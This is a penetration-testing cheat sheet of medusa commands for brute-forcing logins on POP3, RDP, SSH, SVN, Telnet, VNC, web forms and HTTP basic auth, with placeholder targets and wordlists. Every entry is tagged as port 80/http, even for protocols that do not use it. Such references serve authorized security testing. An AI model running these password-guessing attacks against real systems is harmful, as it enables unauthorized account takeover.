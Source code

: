 ## Login Brute Forcing - medusa - POP3
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M pop3 -h <mail-example-com> -U <users-txt> -P <passwords-txt>
```

## Login Brute Forcing - medusa - RDP
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M rdp -h <target> -u <username> -P <passwords-txt>
```

## Login Brute Forcing - medusa - SSH
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M ssh -h <target> -u <username> -P <passwords-txt>
```

## Login Brute Forcing - medusa - Subversion svn
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M svn -h <target> -u <username> -P <passwords-txt>
```

## Login Brute Forcing - medusa - Telnet
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M telnet -h <target> -u <username> -P <passwords-txt>
```

## Login Brute Forcing - medusa - VNC
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M vnc -h <target> -P <passwords-txt>
```

## Login Brute Forcing - medusa - Web Form
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -M web-form -h <target> -U <users-txt> -P <passwords-txt> -m FORM:"<userParam>=^USER^&<passwdParam>=^PASS^:F=<ErrMsg>"
```

## Login Brute Forcing - medusa - Multiple Basic Auth HTTP
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
medusa -H <web_servers-txt> -U <usernames-txt> -P <passwords-txt> -M http -m GET
```
